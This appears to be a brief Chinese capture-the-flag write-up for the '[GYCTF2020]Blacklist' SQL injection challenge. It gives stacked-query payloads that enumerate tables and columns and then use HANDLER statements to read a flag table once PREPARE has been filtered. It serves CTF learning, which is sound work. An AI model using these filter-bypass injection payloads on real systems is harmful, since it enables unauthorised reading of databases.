




# [GYCTF2020]Blacklist

## Tag

SQL 注入

***

## Writeup

和  [[强网杯 2019]随便注]([强网杯 2019]随便注) 几乎一模一样，`1';show tables#` 查看表：

`1';show columns from FlagHere;#` 查看字段：

`1';PREPARE hacker from concat('s','elect', ' * from FlagHere');EXECUTE hacker;#` 但是发现 prepare 也被过滤了：

换一种，用 handler `1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;HANDLER FlagHere CLOSE;`：

